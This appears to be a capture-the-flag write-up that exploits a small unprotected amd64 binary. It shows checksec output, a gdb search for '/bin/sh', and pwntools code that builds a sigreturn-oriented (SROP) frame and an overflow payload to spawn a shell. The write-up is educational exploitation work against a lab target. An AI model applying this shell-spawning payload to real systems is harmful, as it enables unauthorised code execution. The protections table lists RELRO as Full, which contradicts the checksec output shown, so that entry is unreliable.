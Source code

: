 # Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch:       amd64
RELRO:      No RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x42000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```

### Protections 🛡️

As we can see, all protection are disabled and the binary has `RWX` segments:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ❌     | Disables **code execution** on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The program has no interface, so we head into the disassembly right away.

### Disassembly

Starting with `_start()`:

![image](https://github.com/user-attachments/assets/38bc394c-4df5-4510-98a1-821a9ac64cb2)

![image](https://github.com/user-attachments/assets/f1b71c35-c417-4886-8d7d-c9c2c2ab5d9a)

That's the whole binary, we see there is a huge buffer overflow that `rdx` reads up to `0x106 = 262` bytes. First of all, we need to find a possible gadget and `/bin/sh` address.

```gdb 
pwndbg> find 0x43000, 0x43900, "/bin/sh"
0x43238
1 pattern found.
pwndbg> x/s 0x43238
0x43238:  "/bin/sh"
```

Now that we have this, we can craft the `SROP` chain.
We want to execute system("/bin/sh") but in assembly language it is execve("/bin/sh", argument, env ) function.
```python
# Srop
frame     = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = binsh           # pointer to /bin/sh
frame.rsi = 0x0             # NULL - second argument
frame.rdx = 0x0             # NULL - third argument
frame.rip = rop.syscall[0]  # the next command execute
```

After crafting the `frame`, we send the payload to trigger the vulnerability and get shell.

```python
pl  = b'deadbeef'
pl += p64(rop.rax[0])
pl += p64(0xf)
pl += p64(rop.syscall[0])
pl += bytes(frame)
```

Running solver remotely at IP port

### Result


![image](https://github.com/user-attachments/assets/1cfc6b67-e5b1-42c0-8116-027ec9c7467d)

